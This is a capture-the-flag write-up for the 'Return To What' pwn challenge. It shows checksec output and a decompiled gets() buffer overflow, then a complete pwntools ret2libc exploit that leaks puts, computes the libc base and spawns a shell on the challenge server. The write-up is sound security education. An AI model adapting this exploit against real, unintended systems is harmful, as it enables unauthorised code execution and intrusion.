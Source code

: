 # Return To What

If you have not already, follow us on Twitter for updates and content! [@RagnarSecurity](https://twitter.com/ragnarsecurity)

This was a medium level difficulty PWN challenge. We were only given a binary and it involved ROP and 
ret2gotc. 

The first thing to do is perform a checksec. 

```bash
$ checksec return-to-what
[*] '/home/mwittner/Documents/ctf-writeups/downunder-ctf/pwn/return-to-what/return-to-what'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
mwittner@ubuntu:[~/Documents/ctf-writeu
```
As we can tell, there is nothing particular special about this binary in terms of security flags.

Standard input seemed pretty standard. Looked for some input, and then exited. 

```
WittsEnd2@ubuntu:[~/Documents/ctf-writeups/downunder-ctf/pwn/return-to-what]
$ ./return-to-what 
Today, we'll have a lesson in returns.
Where would you like to return to?
hello
WittsEnd2@ubuntu:[~/Documents/ctf-writeups/downunder-ctf/pwn/return-to-what]
$ 
```

```c
// This is from Ghidra
undefined8 main(void)

{
  puts("Today, we\'ll have a lesson in returns.");
  vuln();
  return 0;
}

```
```c 
void vuln(void)

{
  char local_38 [48];
  
  puts("Where would you like to return to?");
  gets(local_38);
  return;
}
```
Next I examined the program in Ghidra to determine whether there were any interesting functions to use. There was no `/bin/sh` in the binary nor a call so system. There were calls to puts; thus, it looked like the only avenue of attack. 



The steps that I did to craft the exploit were as followed 

1. I leaked the address of puts in libc relative to the binary. 
2. I calculated the base address of libc by taking the leaked address and subtracting it by the offset of puts relative to the base. 
3. I found a `/bin/sh` in the libc.
4. Call `execv('/bin/sh',0 ,0)` and SHELL!

There was just one major problems... <b>We needed the correct version of libc.</b>

After doing some research, I eventually asked the challenge author and she gave me a helpful tool: [https://libc.blukat.me/](https://libc.blukat.me/). **KEEPT THIS BOOK MAKRED!** It is impossible to find by Googling (or I searched the wrong thing).

How this resource worked is I took the last three hex values of the `leaked puts address`, and then it came back with the correct libc. 

Final exploit: 

```py
from pwn import *

context(os='linux', arch='amd64') 

# p = process('./return-to-what')
p = remote('chal.duc.tf', 30003)
binary = ELF('./return-to-what')
rop = ROP(binary)
libc = ELF('./libc6_2.27-3ubuntu1_amd64.so')

junk = b'A'*56

rop.puts(binary.got['puts'])
rop.call(binary.symbols['vuln'])

log.info("Stage  1 ROP chain:\n" + str(rop.dump()))

stage1 = junk + rop.chain()

p.recvuntil('Where would you like to return to?')
p.sendline(stage1)
p.recvline()

leaked_puts = p.recvline()[:8].strip().ljust(8,b'\x00')
log.success ("Leaked puts@GLIBC: " + str(leaked_puts))
leaked_puts=u64(leaked_puts)

libc.address = leaked_puts - libc.symbols['puts']


rop2 = ROP(libc)
rop2.system(next(libc.search(b'/bin/sh\x00')), 0, 0)

# rop2 = ROP(binary)
# rop2.call(libc.symbols['system'], (next(libc.search(b'/bin/sh\x00')), ))


log.info("Stage II ROP Chain: \n" + rop2.dump())
stageII = junk + rop2.chain()
p.recvuntil('Where would you like to return to?')
p.sendline(stageII)
p.recvline()
p.interactive()
```
